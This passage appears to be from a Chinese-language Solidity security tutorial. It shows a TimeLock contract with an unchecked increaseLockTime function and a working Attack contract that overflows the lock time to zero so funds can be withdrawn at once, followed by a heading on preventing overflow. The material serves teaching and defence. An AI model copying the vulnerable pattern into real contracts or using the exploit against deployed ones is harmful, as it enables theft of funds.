 ```
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### 如何防止整数溢出和下溢
